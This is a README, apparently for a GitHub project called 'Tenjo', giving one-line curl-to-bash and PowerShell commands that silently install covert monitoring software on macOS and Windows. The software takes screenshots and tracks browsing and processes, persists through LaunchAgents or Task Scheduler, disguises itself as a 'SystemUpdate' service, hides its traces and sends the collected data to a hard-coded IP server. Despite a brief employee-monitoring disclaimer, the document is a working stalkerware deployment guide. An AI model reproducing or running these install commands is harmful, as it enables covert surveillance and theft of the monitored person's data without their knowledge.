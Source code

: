 # Tenjo Stealth Installation Commands

## One-Line Remote Installation (Stealth Mode)

### macOS - Silent Installation (Recommended)
```bash
curl -sSL https://raw.githubusercontent.com/Adi-Sumardi/Tenjo/master/client/quick_install_stealth_macos.sh | bash -s true
```

### macOS - Alternative Method (if above fails)
```bash
curl -sSL https://raw.githubusercontent.com/Adi-Sumardi/Tenjo/master/client/install_stealth_macos.sh | bash -s true cleanup
```

### Windows - Silent Installation
```cmd
powershell -Command "Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/Adi-Sumardi/Tenjo/master/client/install_stealth_windows.bat' -OutFile '%TEMP%\install_stealth.bat'; cmd /c '%TEMP%\install_stealth.bat' true cleanup; del '%TEMP%\install_stealth.bat'"
```

## Manual Installation (if needed)

### macOS
1. Download repository
2. Navigate to client directory
3. Run: `bash install_stealth_macos.sh true cleanup`

### Windows
1. Download repository
2. Navigate to client directory
3. Run: `install_stealth_windows.bat true cleanup`

## Uninstallation Commands

### macOS (Quick Install Method)
```bash
bash ~/.system_update/uninstall.sh
```

### macOS (Alternative Method)
```bash
bash ~/.system_update/uninstall_stealth_macos.sh true
```

### Windows
```cmd
"%APPDATA%\SystemUpdate\uninstall_stealth_windows.bat" true
```

## Features

### ✅ Completely Silent Operation
- No user prompts or visible windows
- Runs hidden in background
- Auto-starts on boot/login
- No taskbar or system tray icons

### ✅ Stealth Installation
- Downloads and installs automatically
- Hides in system directories
- Removes installation traces
- Uses system service names

### ✅ Auto-Start Configuration
- **macOS**: LaunchAgent/LaunchDaemon
- **Windows**: Task Scheduler
- Starts automatically when computer boots
- Survives user logout/login

### ✅ Monitoring Capabilities
- 📸 Screenshots every 60 seconds
- 🌐 Browser activity tracking
- 💻 Process monitoring
- 📊 System statistics
- 📡 Data transmission to server

### ✅ Professional Disguise
- Service name: "SystemUpdate"
- Appears as legitimate system service
- Hidden from casual inspection
- Low resource usage

## Installation Locations

### macOS
- **User**: `~/.system_update/`
- **System**: `/Library/Application Support/SystemUpdate/`
- **Service**: `~/Library/LaunchAgents/com.system.update.agent.plist`

### Windows  
- **User**: `%APPDATA%\SystemUpdate\`
- **System**: `%PROGRAMDATA%\SystemUpdate\`
- **Service**: Task Scheduler `SystemUpdateService`

## Security Notes

⚠️ **This is monitoring software intended for legitimate employee monitoring purposes only**

- Only use on systems you own or have explicit permission to monitor
- Ensure compliance with local privacy laws
- Inform users of monitoring where legally required
- Use responsibly and ethically

## Technical Details

### Process Names
- **Main Process**: `stealth_main.py` / `python stealth_main.py`
- **Service Name**: `SystemUpdateService` / `com.system.update.agent`
- **Directory Name**: `SystemUpdate` / `.system_update`

### Network Communication
- Connects to: `http://103.129.149.67`
- Encrypted data transmission
- Automatic retry on connection failure
- Minimal bandwidth usage

### Logging
- Silent mode: Warnings and errors only
- Log location: `logs/stealth.log`
- Automatic log rotation
- No console output in stealth mode
